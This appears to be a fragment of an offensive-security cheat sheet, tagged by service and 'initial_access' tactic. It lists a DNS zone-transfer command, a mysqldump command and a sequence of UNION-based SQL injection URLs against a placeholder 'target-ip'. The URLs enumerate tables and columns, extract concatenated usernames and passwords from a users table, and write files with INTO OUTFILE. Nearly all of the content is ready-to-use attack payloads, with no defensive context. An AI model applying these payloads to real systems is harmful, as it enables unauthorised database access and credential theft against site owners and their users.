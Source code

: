 ## full zone transfer
- `host -l target-dns-ip`

---

# mysqldump
- service: sql
- tactics: initial_access

## backup all mysql databases
- `mysqldump -u username -ppassword --all-databases --single-transaction`

---

# sqli
- service: sql
- service: http
- tactics: inital_access

## check if you can find a row, where you can place your output  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8`

## get the version of the database  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,@@version,5`

## get the current user  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,user(),5`

## see all tables  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables`

## get column names for a specified table  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'`

## concat user names and passwords (0x3a represents “:”)  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users`

## write into a file  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,"content",5 into OUTFILE 'outfile'`

---